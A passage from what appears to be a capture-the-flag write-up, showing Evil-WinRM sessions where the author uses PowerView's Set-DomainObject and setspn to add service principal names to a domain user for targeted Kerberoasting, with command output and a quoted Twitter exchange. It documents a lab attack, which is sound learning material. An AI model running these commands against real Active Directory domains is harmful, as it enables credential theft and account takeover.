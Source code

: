     
    
    *Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity maria -SET @{serviceprincipalname='nonexistent/0XDF'}
    

For some reason, this doesn’t take:

    
    
    *Evil-WinRM* PS C:\programdata> Get-DomainUser maria | Select serviceprinciplename
    
    serviceprinciplename
    --------------------
    
    

~~It’s not clear to my why I can’t write this SPN, but it seems like a dead
end.~~

_Update_ : After publishing this bit, I got this reply on Twitter:

> Cool writeup !  
> You could actually set an SPN for Maria and kerberoast it. You had to
> provide Smith's credential object but the hash was not crackable anyways :(
> . You can find how I did it here <https://t.co/TkuUqrmL2o>
>
> — morph3 (@melihkaanyldz) [March 1,
> 2022](https://twitter.com/melihkaanyldz/status/1498635702300549123?ref_src=twsrc%5Etfw)

This wasn’t quite right, as because the shell is already running as smith, the
cred isn’t necessary. It seems that my instance of Object was just in a bad
state. On a reset:

    
    
    *Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity maria -SET @{serviceprincipalname='nonexistent/0XDF'}
    *Evil-WinRM* PS C:\programdata> Get-DomainUser maria | Select serviceprincipalname
    
    serviceprincipalname
    --------------------
    nonexistent/0XDF
    

But in subsequent replies on Twitter, morph3 did show how to do it using
`setspn` (a [binary](https://docs.microsoft.com/en-us/previous-
versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241\(v=ws.11\))
that should be on DC). That works as well, as now both SPNs are there:

    
    
    *Evil-WinRM* PS C:\programdata> setspn -a MSSQLSvc/object.local:1433 object.local\maria
    Checking domain DC=object,DC=local
    CN=maria garcia,CN=Users,DC=object,DC=local
            MSSQLSvc/object.local:1433
    
    Updated object
    *Evil-WinRM* PS C:\programdata> Get-DomainUser maria | Select serviceprincipalname
    
    serviceprincipalname
    --------------------
    {object.local/maria.object.local:1337, nonexistent/0XDF}
    